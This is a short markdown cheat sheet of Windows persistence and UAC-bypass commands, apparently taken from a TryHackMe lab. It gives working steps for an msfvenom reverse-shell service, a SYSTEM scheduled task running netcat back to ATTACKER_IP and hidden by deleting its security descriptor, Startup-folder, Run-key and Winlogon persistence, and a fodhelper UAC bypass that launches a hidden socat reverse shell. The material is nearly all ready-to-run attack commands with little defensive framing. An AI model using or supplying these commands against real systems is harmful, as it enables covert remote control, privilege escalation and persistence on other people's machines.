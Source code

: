 `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe`
`sc.exe query state=inactive` *Find the STOPPED Services*
`sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"` *Configure it with autostart, and replace the binary with Ours*

# Scheduled Tasks

` schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM` *Create a task*
`c:\tools\pstools\PsExec64.exe -s -i regedit` *Open regedit with psexec*
`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\` *Navigate there and find the Schedule task that we created and delete the Security Descriptor (SD), by doing this our schedule task is invisible to everyone*


# StartUp
`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`*Place your file here for user persistence*
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` *Global persistence*

# Registry persistence
*Open registry with regedit and adequate perms*
`HKCU\Software\Microsoft\Windows\CurrentVersion\Run` *Runs every time for the current user*
`HKLM\Software\Microsoft\Windows\CurrentVersion\Run` *Runs every time for every user*
**New -> Expandable String Value -> In the Data Section write your path to the executable,Name it as you want**

# Winlogon One method
`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`
*Userinit points to userinit.exe, which is in charge of restoring your user profile preferences.
Shell points to the system's shell, which is usually explorer.exe)*
(Interestingly, you can append commands separated by a comma, and Winlogon will process them all.)

# Winlogon Two method
*One of the things userinit.exe does while loading your user profile is to check for an environment variable called UserInitMprLogonScript. Go to `HKCU\Environment` in the registry. New -> Expandable String Value. Name it as UserInitMprLogonScript*



#### UAC BYPASS METHODS(Run from cmd, to bypass defender) ####
`whoami /groups | find "Label"` *We want high integrity if we want to have admin perms on a process no matter if we are already an admin.If we have medium do the following* 
`set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"`
`reg add "HKCU\Software\Classes\.Servic3\Shell\Open\command" /d %CMD% /f`
`reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".Servic3" /f`
`fodhelper.exe`
`reg delete "HKCU\Software\Classes\.Servic3\" /f`
`reg delete "HKCU\Software\Classes\ms-settings\" /f`
